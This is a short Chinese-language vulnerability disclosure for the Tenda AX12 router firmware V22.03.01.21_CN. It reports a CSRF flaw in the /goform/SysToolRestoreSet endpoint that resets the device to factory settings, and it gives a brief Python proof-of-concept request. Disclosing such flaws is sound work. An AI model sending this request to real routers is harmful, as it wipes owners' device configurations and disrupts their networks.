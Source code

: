 ## 漏洞描述 ##

设备：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

漏洞类型：跨站点请求伪造(CSRF)

攻击效果：设备恢复出厂设置

## 漏洞成因

提供的/goform/SysToolRestoreSet接口函数，在身份验证的前提下，它允许远程攻击者将设备恢复为出厂设置。

![](./image/1.png)

## POC

在身份验证的前提下，访问一下此接口即可。

```python
import requests

url = "http://ip/goform/SysToolRestoreSet"

r = requests.get(url)

print(r.content)
```

![](./image/2.png)
